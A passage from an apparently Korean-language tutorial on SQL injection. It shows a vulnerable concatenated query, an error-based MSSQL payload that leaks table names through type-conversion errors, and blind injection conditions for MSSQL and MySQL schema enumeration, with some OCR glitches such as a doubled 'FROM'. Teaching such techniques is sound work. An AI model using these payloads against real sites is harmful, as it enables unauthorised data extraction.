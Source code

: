 **쿼리유추**에서는 UNION 을 삽입하여 원하는 정보를 추가적으로 SELECT하였다. 하지만 컬럼수마추기도 쉽지않고 페이징, 정렬, 그룹집계등 복잡한 쿼리에 추측만으로 SQL를 삽입하는건 많은 시간이 소요된다.

SQL 에러메세지를 이용하면 좀 더 쉽게 조회 할 수 있다. 원하는 결과값에 형변환, 형비교 오류등 일부러 SQL 에러를 발생시켜 결과값을 노출시킨다.

```
var collection = db.query("SELECT Subject?, Name?, Created? FROM Board? WHERE Subject LIKE '%" + keyword + "%'");
```

이 SQL구문에서 keyword 값을 _' AND 0 <> (SELECT TOP 1 name FROM FROM dbo.sysobjects WHERE xtype = 'U') AND '%'='_ 이라고 넣는다면 이 SQL문은

```
0 <> (SELECT TOP 1 name FROM FROM dbo.sysobjects WHERE xtype = 'U')
```

이 구문에 의해서 의도된 형비교에러를 발생시킨다.

```
Microsoft OLE DB Provider for SQL Server 오류 '80040e14'

줄 1: 'Member' 를 int형으로 변환할 수 없습니다.

/member/login_ok.asp, 줄 9
```

이 에러메세지는 결과적으로

```
--MSSQL 테이블조회쿼리
SELECT TOP 1 name FROM dbo.sysobjects WHERE xtype = 'U'
```

이 구문을 실행해서 조회해준꼴이 된다.

## Blind SQL Injection

에러메세지를 확인 할 수 없을 경우 오로지 조건의 TRUE/FALSE를 판단하여 데이터를 추출한다. 예를 들어 이런식이다. Condition을 통한 결과값 True/False

```
--Mssql기준

--테이블 조회
SUBSTRING((SELECT TOP 1 name FROM dbo.sysobjects WHERE xtype = 'U'),1,1) = 'a'

--컬럼 조회
SUBSTRING((SELECT TOP 1 name FROM dbo.syscolumns WHERE xtype = 'U' AND OBJECT_ID('테이블')),1,1) = 'a'

--Mysql기준
#--테이블 조회
SUBSTRING((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '데이터베이스' LIMIT 1),1,1) = 'a'

#--컬럼 조회
SUBSTRING((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '데이터베이스' AND table_name = '테이블' LIMIT 1),1,1) = 'a';
```
